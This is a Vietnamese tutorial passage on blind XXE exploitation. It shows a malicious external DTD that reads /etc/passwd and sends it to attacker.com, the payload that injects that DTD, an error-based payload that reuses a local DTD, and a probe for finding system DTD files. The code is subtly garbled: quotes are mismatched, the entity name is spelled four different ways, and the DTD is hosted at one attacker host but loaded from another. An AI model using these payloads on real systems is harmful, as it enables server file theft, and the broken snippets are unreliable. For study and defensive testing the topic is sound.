

## Khai thác lỗ hổng XXE ẩn để đánh cắp dữ liệu ngoài băng tần
Việc phát hiện lỗ hổng XXE ẩn thông qua các kỹ thuật ngoài băng tần là rất tốt nhưng nó không thực sự cho thấy cách thức khai thác lỗ hổng .
Kẻ tấn công có thể lưu trữ một DTD độc hại trên hệ thống mà chúng kiểm soát và sau đó gọi DTD bên ngoài từ bên trong là payload XXE trong băng tần.
Một DTD độc hại nhằm đánh cắp nội dung của `/etc/passwd` tập tin
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exiflltrate SYSTEM "http://attacker.com?x=%file;'">">
%eval;
%exfilltrate
```
DTD này thực hiện các bước:
1. Định nghĩa các thực thể tham số XML có tên là `file`, chứa nội dung của `/etc/passwd` tệp.
2. Định nghĩa một thực thể có tham số có tên là `eval`, chứa một khai báo `exfilltrate` bên trong thực thể này chứa yêu cầu HTTP tới máy chủ web của kẻ tấn công, trong đó giá trị `file` chứa chuỗi truy vấn
3. Sử dụng `eval` thực thể này, dẫn đến việc khai báo động thực `exfilltarte` để được thực hiện
4. Sử dụng `exif` thực thể đó để giá trị của nó được đánh giá bằng cách yêu cầu URL được chỉ định.
Kẻ tấn công sau đó phải lưu trữ DTD độc hại trên một hệ thống chúng kiểm soát sau đó lấy đường link thực thi thực thể DTD trong URL
```
http://attacker.com/malicous.dtd
```
CUối cùng kẻ tấn công gửi đoạn mã XXE sau đến ứng dụng như sau:
```xml
<!DOCTYPE foo [<!ENTITY %xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Đoạn mã tấn công XXE này khai báo một thực thể tham số XML có tên là `xxe` và sau đó sử dụng thực thể DTD trong đó và thực thi tệp `/etc/passwd`.
## Khai thác lỗ hổng XXE ẩn bằng cách tái sử dụng DTD cục bộ
Kỹ thuật nêu trên hoạt động tốt với DTD bên ngoài, nhưng thường không hoạt động với DTD nội bộ được chỉ định đầy đủ bên trong `DOCTYPE` phần tử.
Vậy còn các lỗ hổng XXE ẩn khi các tương tác ngoài băng tần bị chặn thì sao? Bạn không thể đánh cắp dữ liệu qua kết nối ngoài băng tần, và bạn cũng không thể tải DTD bên ngoài từ máy chủ từ xa.
Trong trường hợp này, vẫn có thể xảy ra tình trạng thông báo lỗi chứa dữ liệu nhạy cảm do lỗ hổng trong đặc tả ngôn ngữ XML.
Nếu DTD của tài liệu sử dụng kết hợp giữa khai báo DTD nội bộ và bên ngoài, thì DTD nội bộ có thể định nghĩa lại về việc sử dụng một thực thể tham số XML trong định nghĩa của một thực thể.
Giả sử có một tệp DTD trên hệ thống tệp của máy chủ tịa vị trí `/usr/local/app/schema.dtd` và tệp DTD này định nghĩa một thực thể có tên là `custom_entity`. kẻ tấn công có thể kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung `/etc/passwd` tệp bằng cách gửi DTD 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## Tìm kiếm tệp DTD hiện có để sử dụng lại.
Vì cuộc tấn công XXE này liên quan đến việc sử dụng lại một DTD hiện có trên tệp hệ thống máy chủ, nên yêu cầu quan trọng là phải tìm được một tệp phù hợp.
Điều này thực ra khá đơn giản. Vì ứng dụng trả về bất kỳ thông báo lỗi do trình phân tích cú pháp XML đưa ra, có thể dễ dàng liệt kê DTD cục bộ chỉ bằng cố gắng tải chúng từ bên trong DTD nội bộ.
Các hệ thống Linux sử dụng môi trường máy tính để bàn GNOME thường có một tệp DTD tại `/usr/share/yelp/dtd/docbookx.dtd`. Kierm tra tệp có tồn tại bằng cách sử dụng XXE nếu gây ra lỗi thì tên tệp bị thiếu
```xml
<!DOCTYPE foo[
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Sau khi bạn đã kiểm tra danh sách các tệp DTD thông dụng để xác định vị trí tệp cần tìm, bạn cần sao chép tệp đó và xem xét để tìm ra thực thể mà bạn có thể định nghĩa lại. Vì nhiều hệ thống thông dụng bao gồm các tệp DTD là mã nguồn mở, bạn thường có thể nhanh chóng sao chép các tệp thông qua tìm kiếm trên internet.
